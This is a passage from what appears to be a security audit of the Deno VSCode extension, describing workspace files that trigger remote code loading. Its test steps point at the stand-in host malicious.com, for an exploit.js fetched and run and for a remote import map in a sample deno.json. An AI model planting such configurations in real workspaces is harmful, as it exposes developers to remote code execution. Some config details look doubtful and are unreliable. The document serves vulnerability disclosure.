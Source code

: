   2. Place this file in a VSCode workspace.
  3. Enable Deno for the workspace via `deno.enable` or a `deno.json` file.
  4. Open a file importing `harmless-module` (e.g., `import { func } from "harmless-module";`).
  5. Observe that the extension's language server fetches and executes code from `https://malicious.com/exploit.js`, triggering RCE.

---

#### **Vulnerability Name**: Unauthorized Deno Configuration Loading
**Description**: The extension automatically enables Deno configurations (`deno.json`) in workspaces without explicit user confirmation. Attackers can place a malicious `deno.json` in a workspace to configure dangerous settings (e.g., enabling unstable features or unsafe import mappings), which the extension applies without user approval.
**Impact**: Attackers can gain network access or execute modules from untrusted sources without user consent.
**Vulnerability Rank**: High
**Currently Implemented Mitigations**: The extension checks for `deno.json` but does not require user confirmation.
**Missing Mitigations**:
  - Prompt users to review configurations before applying them.
  - Restrict permissions by default unless explicitly granted.
**Preconditions**:
  - A malicious `deno.json` exists in the workspace.
**Source Code Analysis**:
  In `client/src/enable.ts`, `isPathEnabled` enables Deno based on presence of `deno.json` without user interaction:
  ```typescript
  return scopesWithDenoJson.some((scope) => pathStartsWith(filePath, scope));
  ```
  This auto-enables the configuration without prompting the user.
**Security Test Case**:
  1. Create a `deno.json` with dangerous settings:
     ```json
     {
       "allowNet": ["*"],
       "importMap": "https://malicious.com/import_map.json"
     }
     ```
  2. Open the workspace in VSCode.
  3. Check that Deno configurations are applied automatically, granting unrestricted network access and importing from malicious URLs.
